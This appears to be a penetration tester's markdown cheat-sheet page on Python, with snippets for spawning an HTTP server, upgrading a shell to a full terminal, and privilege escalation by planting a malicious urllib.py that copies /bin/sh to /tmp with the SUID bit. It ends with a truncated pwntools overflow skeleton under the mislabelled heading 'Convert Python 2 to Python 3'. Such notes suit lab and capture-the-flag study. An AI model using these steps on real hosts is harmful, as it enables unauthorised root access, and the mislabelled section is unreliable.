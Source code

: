 # 🤖 python
Tags: #🤖
Related to: 
See also: 
Previous: [[PROGRAMMING]]

## Description

Python is an interpreted high-level general-purpose programming language.

## Usage Examples

### Create HTTP server

	python -m SimpleHTTPServer 80		// Python
	python3	-m http.server 80		// Python 3

### Upgrade terminal

	which python
	which python3

	python3 -c ‘import pty;pty.spawn("/bin/bash")’	// Spawn a shell.
	<Ctrl + Z>										// Background it.
	stty raw -echo									// Change terminal to ignore break characters and echo input.
	fg <enter>										// Foreground the new shell.
	<enter>
	export TERM=xterm								// So you can clear the screen.

### Preserve SUID on shell invocation

Python first checks for modules in the current working directory, before looking in the other paths. We can attempt to hijack loading of the legitimate call or urllib modules, so that our malicious module is loaded instead. Let's create a urllib.py file in the /home/frank folder with the contents below:

	vi urllib.py

```python
import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")
```

	/tmp/sh -p	// #

### Convert Python 2 to Python 3

```python
from pwn import *
import sys

if len(sys.argv) < 3:
	print "Usage: {} ip port".format(sys.argv[0])
	sys.exit()

ip = sys.argv[1]
port = sys.argv[2]

payload = "A" * 1028 + "B" * 4 + "C" * 500

r = remote(ip, port)
r.recvuntil(':')
r.sendline("Admin")
r.recvuntil(':')
```